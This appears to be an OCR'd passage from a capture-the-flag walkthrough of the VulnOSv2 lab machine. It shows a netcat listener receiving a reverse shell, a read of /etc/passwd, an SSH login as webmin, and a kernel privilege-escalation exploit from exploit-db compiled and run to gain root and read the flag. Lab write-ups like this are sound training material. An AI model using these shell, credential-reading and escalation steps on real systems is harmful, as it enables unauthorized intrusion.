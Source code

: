 >    A PHP code text format has been created.  
>    The configuration options have been saved.  


kali@kali:~$ sudo nc -nvlp 4444
>listening on [any] 4444 ...  
>connect to [192.168.1.115] from (UNKNOWN) [192.168.1.76] 35532  
>Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux  
> 04:32:42 up 3 days,  7:43,  1 user,  load average: 0.00, 0.01, 0.05  
>USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  
>webmin   pts/0    kali.home        04:13   13:06   0.14s  0.10s mysql -u root -p  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
>/bin/sh: 0: can't access tty; job control turned off  
>$ $ $   
>$ id  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
>$ cat /etc/passwd  
>root:x:0:0:root:/root:/bin/bash  
>vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash  
>webmin:x:1001:1001::/home/webmin:  

**Same user in system? >.<**

### SSH

kali@kali:~$ ssh -l webmin 192.168.1.76

webmin@VulnOSv2:~$ uname -a
>Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux

### LOCAL PRIVILEGE ESCALATION EXPLOIT

https://www.exploit-db.com/raw/37292/

webmin@VulnOSv2:~$ gcc exploit.c -o exploit
webmin@VulnOSv2:~$ chmod +x exploit
webmin@VulnOSv2:~$ ./exploit 
>spawning threads  
>mount #1  
>mount #2  
>child threads done  
>/etc/ld.so.preload created  
>creating shared library  
\# id    
>uid=0(root) gid=0(root) groups=0(root),1001(webmin)  
\# /bin/bash	  
root@VulnOSv2:/home/webmin# 

root@VulnOSv2:/home/webmin# cd /root
root@VulnOSv2:/root# ls -la
>total 36  
>drwx------  3 root root 4096 May  4  2016 .  
>drwxr-xr-x 21 root root 4096 Apr  3  2016 ..  
>-rw-------  1 root root    9 May  4  2016 .bash_history  
>-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc  
>drwx------  2 root root 4096 May  2  2016 .cache  
>-rw-r--r--  1 root root  140 Feb 20  2014 .profile  
>-rw-------  1 root root    3 May  2  2016 .psql_history  
>-rw-------  1 root root  735 May  4  2016 .viminfo  
>-rw-r--r--  1 root root  165 May  4  2016 **flag.txt**  
root@VulnOSv2:/root# cat flag.txt
>Hello and welcome.  
>You successfully compromised the company "JABC" and the server completely !!  
>Congratulations !!!  
>Hope you enjoyed it.  